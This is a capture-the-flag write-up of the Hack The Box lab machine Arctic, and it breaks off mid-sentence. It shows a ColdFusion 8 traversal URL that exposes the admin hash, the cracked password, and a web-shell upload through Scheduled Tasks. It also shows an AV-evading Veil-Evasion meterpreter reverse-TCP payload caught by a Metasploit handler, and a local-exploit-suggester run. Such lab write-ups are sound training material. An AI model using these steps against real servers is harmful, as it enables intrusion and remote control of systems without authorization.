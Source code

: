 ```yaml
---
layout: post
title: Arctic(HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.11
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.11</p>

<p>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-27 08:00 EST
<br>Nmap scan report for 10.10.10.11
<br>Host is up (0.16s latency).
<br>Not shown: 997 filtered ports
<br>PORT      STATE SERVICE VERSION
<br><font color="BB69EC">135/tcp</font>   open  <font color="53E100">msrpc</font>   Microsoft Windows RPC
<br><font color="BB69EC">8500/tcp</font>  open  <font color="53E100">fmtp?</font>
<br><font color="BB69EC">49154/tcp</font> open  <font color="53E100">unknown</font>
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: specialized|WAP|phone
<br>Running: iPXE 1.X, Linux 2.4.X|2.6.X, Sony Ericsson embedded
<br>OS CPE: cpe:/o:ipxe:ipxe:1.0.0%2b cpe:/o:linux:linux_kernel:2.4.20 cpe:/o:linux:linux_kernel:2.6.22 cpe:/h:sonyericsson:u8i_vivaz
<br>OS details: iPXE 1.0.0+, Tomato 1.28 (Linux 2.4.20), Tomato firmware (Linux 2.6.22), Sony Ericsson U8i Vivaz mobile phone
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows</p>

<p>TRACEROUTE (using port 135/tcp)
<br>HOP RTT        ADDRESS
<br>1   191.61 ms  10.10.14.1
<br>2   ... 6
<br>7   2371.15 ms 10.10.14.1</p>

<p>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 85.23 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>
</div>
</font>

<br>**Web**:-
![Web](https://teckk2.github.io/assets/images/Arctic/1-Arctic.png)
<br>On port:**8500** there are two directories 
<br>If we open **/cfdocs/** directory then we can see there is _adobe coldfusion 8_ is running on the web.
![coldfusion](https://teckk2.github.io/assets/images/Arctic/2-Arctic.png)
<br>For which there is a **LFI** exploit available using which we can reveal the admin password **hash**.
<br>[http://10.10.10.11:8500//CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en](http://10.10.10.11:8500//CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en)
![admin-hash](https://teckk2.github.io/assets/images/Arctic/3-Arctic.PNG)
<br>Now crack the password hash using [online tool](https://crackstation.net/) or if you want you can use john or hashcat.
![hash-cracker](https://teckk2.github.io/assets/images/Arctic/4-Arctic.PNG)
<br>The Password is _**{happyday}**_, now we can loggin into **coldfusion** as _admin_.
<br>And make sure that Coldfusion only allow two loggin at a time and it's really slow to response, So if you are unable to loggin then must be there is someone logged in or forget to logout, So revert the machine if you face any issue like this.
<br>Now Go to DEBUGGING & LOGGING tab and click on Scheduled Task now a page will popup then click on Schedule New Task.
![Shedule-Task](https://teckk2.github.io/assets/images/Arctic/5-Arctic.PNG)
![NEW-TASK](https://teckk2.github.io/assets/images/Arctic/6-Arctic.PNG)
<br>Before we proceed further we need to create a cfexec.cfm file which will give us a web shell. So, Copy The HTML payload From my [Pastebin](https://pastebin.com/KSZ4WrfV) and paste it in a new file and make sure to name it cfexec.cfm or it will not work because it's hardcoded.
![cfexec.cfm](https://teckk2.github.io/assets/images/Arctic/7-Arctic.PNG)
<br>Now Set up our WebServer and then fillup the shedule page as shown in the image below.
![python server](https://teckk2.github.io/assets/images/Arctic/8-Arctic.PNG)
![Shedule](https://teckk2.github.io/assets/images/Arctic/9-Arctic.PNG)
<br>If all goes correct then as soon you click the submit button, you will see the file request from the server.
![response](https://teckk2.github.io/assets/images/Arctic/10-Arctic.PNG)
<br>If you don't get file request automatically, then you can try clicking (_Run Shedule Task_) button below **Actions**.
<br>Now check the page we uploaded [http://10.10.10.11:8500/CFIDE/cfexec.cfm](http://10.10.10.11:8500/CFIDE/cfexec.cfm)
<br>It should be blank so we need to specify the cmd.exe location to execute the command and in option the command we need to execute and the output file.
![command](https://teckk2.github.io/assets/images/Arctic/11-Arctic.PNG)
<br>It will take around 10 to 20 sec to execute the command so wait untill the page loads, and after that cehck the output.txt file
![output](https://teckk2.github.io/assets/images/Arctic/12-Arctic.PNG)
<br>We got the RCE, there is an **AV** runnning on the target machine and in order to get reverse shell we need to create an encrypted payload in (.bat) format using [Veil-Evasion](https://github.com/Veil-Framework/Veil-Evasion) tool.
<br>Download the tool,No need to install just run the (Veil-Evasion.py) and generate the payload
<br>Check the list of Payload avaialble and chose (powershell/meterpreter/rev_tcp).
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Downloads/Veil-Evasion-master</font># ./Veil-Evasion.py</p>
<p>=========================================================================
<br>&nbsp;Veil-Evasion | [Version]: 2.28.2
<br>=========================================================================
<br>&nbsp;[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
<br>=========================================================================</p>

<p>&nbsp;Main Menu</p>

<p>&nbsp;<font color="53E100">51</font> payloads loaded</p>

<p>&nbsp;Available Commands:</p>

<p>&nbsp;use&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Use a specific payload
<br>&nbsp;info&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Information on a specific payload
<br>&nbsp;list&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;List available payloads
<br>&nbsp;update&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Update Veil-Evasion to the latest version
<br>&nbsp;clean&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Clean out payload folders
<br>&nbsp;checkvt&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Check payload hashes vs. VirusTotal
<br>&nbsp;exit&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Exit Veil-Evasion</p>

<p>&nbsp;[menu>>]: <font color="BB69EC">list</font></p>
<p>=========================================================================
<br>&nbsp;Veil-Evasion | [Version]: 2.28.2
<br>=========================================================================
<br>&nbsp;[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
<br>=========================================================================</p>


<p>&nbsp;<font color="53E100">[*] Available Payloads:</font></p>

<p>&nbsp;1)	auxiliary/coldwar_wrapper
<br>&nbsp;2)	auxiliary/macro_converter
<br>&nbsp;3)	auxiliary/pyinstaller_wrapper</p>

<p>&nbsp;4)	c/meterpreter/rev_http  
<br>&nbsp;5)	c/meterpreter/rev_http_service
<br>&nbsp;6)	c/meterpreter/rev_tcp   
<br>&nbsp;7)	c/meterpreter/rev_tcp_service
<br>&nbsp;8)	c/shellcode_inject/flatc</p>

<p>&nbsp;9)	cs/meterpreter/rev_http 
<br>&nbsp;10)	cs/meterpreter/rev_https
<br>&nbsp;11)	cs/meterpreter/rev_tcp  
<br>&nbsp;12)	cs/shellcode_inject/base64_substitution
<br>&nbsp;13)	cs/shellcode_inject/virtual</p>

<p>&nbsp;14)	go/meterpreter/rev_http 
<br>&nbsp;15)	go/meterpreter/rev_https
<br>&nbsp;16)	go/meterpreter/rev_tcp  
<br>&nbsp;17)	go/shellcode_inject/virtual</p>

<p>&nbsp;18)	native/backdoor_factory 
<br>&nbsp;19)	native/hyperion         
<br>&nbsp;20)	native/pe_scrambler</p>     

<p>&nbsp;21)	perl/shellcode_inject/flat</p>

<p>&nbsp;22)	powershell/meterpreter/rev_http
<br>&nbsp;23)	powershell/meterpreter/rev_https
<br>&nbsp;24)	powershell/meterpreter/rev_tcp
<br>&nbsp;25)	powershell/shellcode_inject/download_virtual
<br>&nbsp;26)	powershell/shellcode_inject/download_virtual_https
<br>&nbsp;27)	powershell/shellcode_inject/psexec_virtual
<br>&nbsp;28)	powershell/shellcode_inject/virtual</p>

<p>&nbsp;29)	python/meterpreter/bind_tcp
<br>&nbsp;30)	python/meterpreter/rev_http
<br>&nbsp;31)	python/meterpreter/rev_http_contained
<br>&nbsp;32)	python/meterpreter/rev_https
<br>&nbsp;33)	python/meterpreter/rev_https_contained
<br>&nbsp;34)	python/meterpreter/rev_tcp
<br>&nbsp;35)	python/shellcode_inject/aes_encrypt
<br>&nbsp;36)	python/shellcode_inject/aes_encrypt_HTTPKEY_Request
<br>&nbsp;37)	python/shellcode_inject/arc_encrypt
<br>&nbsp;38)	python/shellcode_inject/base64_substitution
<br>&nbsp;39)	python/shellcode_inject/des_encrypt
<br>&nbsp;40)	python/shellcode_inject/download_inject
<br>&nbsp;41)	python/shellcode_inject/flat
<br>&nbsp;42)	python/shellcode_inject/letter_substitution
<br>&nbsp;43)	python/shellcode_inject/pidinject
<br>&nbsp;44)	python/shellcode_inject/stallion</p>

<p>&nbsp;45)	ruby/meterpreter/rev_http
<br>&nbsp;46)	ruby/meterpreter/rev_http_contained
<br>&nbsp;47)	ruby/meterpreter/rev_https
<br>&nbsp;48)	ruby/meterpreter/rev_https_contained
<br>&nbsp;49)	ruby/meterpreter/rev_tcp
<br>&nbsp;50)	ruby/shellcode_inject/base64
<br>&nbsp;51)	ruby/shellcode_inject/flat</p>

<p>&nbsp;[menu>>]: <font color="BB69EC">use 24</font></p>
<p>=========================================================================
<br>&nbsp;Veil-Evasion | [Version]: 2.28.2
<br>=========================================================================
<br>&nbsp;[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
<br>=========================================================================</p>


<p>&nbsp;Payload: powershell/meterpreter/rev_tcp loaded</p>


<p>&nbsp;Required Options:</p>

<p>&nbsp;Name&nbsp;&nbsp;&nbsp;Current&nbsp;Value&nbsp;Description
<br>&nbsp;----&nbsp;&nbsp;&nbsp;-------------&nbsp;-----------
<br>&nbsp;LHOST&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;IP of the Metasploit handler
<br>&nbsp;LPORT&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;4444&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Port of the Metasploit handler</p>

<p>&nbsp;Available Commands:</p>

<p>&nbsp;set&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Set a specific option value
<br>&nbsp;info&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Show information about the payload
<br>&nbsp;options&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Show payload's options
<br>&nbsp;generate&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Generate payload
<br>&nbsp;back&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Go to the main menu
<br>&nbsp;exit&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;exit Veil-Evasion</p>

<p>&nbsp;[powershell/meterpreter/rev_tcp>>]: <font color="BB69EC">set LHOST 10.10.*.*</font>
<br>&nbsp;[i] LHOST => 10.10.*.*
<br>&nbsp;[powershell/meterpreter/rev_tcp>>]: <font color="BB69EC">set LPORT 4455</font>
<br>&nbsp;[i] LPORT => 4455
<br>&nbsp;[powershell/meterpreter/rev_tcp>>]: <font color="BB69EC">generate</font></p>
 
<p>=========================================================================
<br>&nbsp;Veil-Evasion | [Version]: 2.28.2
<br>=========================================================================
<br>&nbsp;[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
<br>=========================================================================</p>


<p>&nbsp;[>] Please enter the base name for output files (default is 'payload'): arctic</p>

<p>&nbsp;Language:		<font color="53E100">powershell</font>
<br>&nbsp;Payload:		powershell/meterpreter/rev_tcp
<br>&nbsp;Required Options:      LHOST=10.10.*.*  LPORT=4455
<br>&nbsp;Payload File:		/var/lib/veil-evasion/output/source/arctic.bat
<br>&nbsp;Handler File:		/var/lib/veil-evasion/output/handlers/arctic_handler.rc</p>

<p>&nbsp;[*] Your payload files have been generated, don't get caught!
<br>&nbsp;<font color="ffff00">[!] And don't submit samples to any online scanner! ;)</font></p>

<p>&nbsp;[>] Press any key to return to the main menu.</p>
</div>
</font>
<br>Our payload has been generate, now copy the payload to desktop and set up the webserver if it's not already running to upload the file.
<font size="1">
<div style="height:100px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Downloads/Veil-Evasion-master</font># cp /var/lib/veil-evasion/output/source/arctic.bat /root/Desktop/
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Downloads/Veil-Evasion-master</font># cd /root/Desktop/
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># python -m SimpleHTTPServer 80
<br>Serving HTTP on 0.0.0.0 port 80 ...</p>
</div>
</font>
<br>Now upload the file using the same method we uploaded our HTML payload earlier using (Shedule Task), for this create a new shedule task and trigger the file using our web shell.
![arctic-shell](https://teckk2.github.io/assets/images/Arctic/13-Arctic.PNG)
<br>amd make sure to save the file at (C:\ColdFusion8\wwwroot\CFIDE\arctic.bat)
<br>Then run the button **(Run Shedule Task)** under **(Actions)** to upload the file to the server.
![Start-shedule-task](https://teckk2.github.io/assets/images/Arctic/14-Arctic.PNG)
<br>Before we proceed ahead check if the payload file has been uploaded successfully or not?
![arctic.bat](https://teckk2.github.io/assets/images/Arctic/15-Arctic.PNG)
<br>Now set up the listner and execute the file from the web
![arctic.bat-2](https://teckk2.github.io/assets/images/Arctic/16-Arctic.PNG)
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>msf > use exploit/multi/handler 
<br>msf exploit(<font color="red">handler</font>) > set payload windows/meterpreter/reverse_tcp
<br>payload => windows/meterpreter/reverse_tcp
<br>msf exploit(<font color="red">handler</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.*.*
<br>msf exploit(<font color="red">handler</font>) > set LPORT 4455
<br>LPORT => 4455
<br>msf exploit(<font color="red">handler</font>) > exploit </p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:4455 
<br><font color="RoyalBlue">[*]</font> Starting the payload handler...
<br><font color="RoyalBlue">[*]</font> Sending stage (957487 bytes) to 10.10.10.11
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (10.10.**.*:4455 -> 10.10.10.11:65155) at 2017-12-30 02:24:25 -0500</p>

<p>meterpreter > sysinfo 
<br>Computer&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: ARCTIC
<br>OS&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: Windows 2008 R2 (Build 7600).
<br>Architecture&nbsp;&nbsp;&nbsp;: x64
<br>System Language : el_GR
<br>Domain&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: HTB
<br>Logged On Users : 1
<br>Meterpreter&nbsp;&nbsp;&nbsp;&nbsp;: x86/windows
<br>meterpreter > getuid
<br>Server username: ARCTIC\tolis
<br>meterpreter > shell
<br>Process 1056 created.
<br>Channel 1 created.
<br>Microsoft Windows [Version 6.1.7600]
<br>Copyright (c) 2009 Microsoft Corporation.  All rights reserved.</p>

<p>C:\ColdFusion8\runtime\bin>systeminfo	
<br>systeminfo</p>

<p>Host Name:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC
<br>OS Name:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Microsoft Windows Server 2008 R2 Standard 
<br>OS Version:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;6.1.7600 N/A Build 7600
<br>OS Manufacturer:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Microsoft Corporation
<br>OS Configuration:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Standalone Server
<br>OS Build Type:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Multiprocessor Free
<br>Registered Owner:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Windows User
<br>Registered Organization:   
<br>Product ID:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;55041-507-9857321-84451
<br>Original Install Date:&nbsp;&nbsp;&nbsp;&nbsp;22/3/2017, 11:09:45 ��
<br>System Boot Time:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;28/12/2017, 11:00:25 ��
<br>System Manufacturer:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;VMware, Inc.
<br>System Model:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;VMware Virtual Platform
<br>System Type:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<font color="ffff00">x64-based PC</font>
<br>Processor(s):&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2 Processor(s) Installed.
<br>BIOS Version:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Phoenix Technologies LTD 6.00, 5/4/2016
<br>Windows Directory:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;C:\Windows
<br>System Directory:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;C:\Windows\system32
<br>Boot Device:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;\Device\HarddiskVolume1
<br>System Locale:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;el;Greek
<br>Input Locale:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;en-us;English (United States)
<br>Time Zone:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;(UTC+02:00) Athens, Bucharest, Istanbul
<br>Total Physical Memory:&nbsp;&nbsp;&nbsp;&nbsp;1.024 MB
<br>Available Physical Memory: 515 MB
<br>Virtual Memory: Max Size:&nbsp;2.048 MB
<br>Virtual Memory: Available: 1.272 MB
<br>Virtual Memory: In Use:&nbsp;&nbsp;&nbsp;776 MB
<br>Page File Location(s):&nbsp;&nbsp;&nbsp;&nbsp;C:\pagefile.sys
<br>Domain:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;HTB
<br>Logon Server:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;N/A
<br>Hotfix(s):&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;N/A
<br>Network Card(s):&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;1 NIC(s) Installed.</p>

<p>C:\ColdFusion8\runtime\bin>^C
<br>Terminate channel 1? [y/N]  y
<br>meterpreter > run post/multi/recon/local_exploit_suggester</p>

<p><font color="RoyalBlue">[*]</font> 10.10.10.11 - Collecting local exploits for x86/windows...
<br><font color="RoyalBlue">[*]</font> 10.10.10.11 - 37 exploit checks are being tried...
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms_ndproxy: The target service is running, but could not be validated.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
<br>meterpreter > </p>
</div>
</font>
<br>We have the user access and after running post exploit
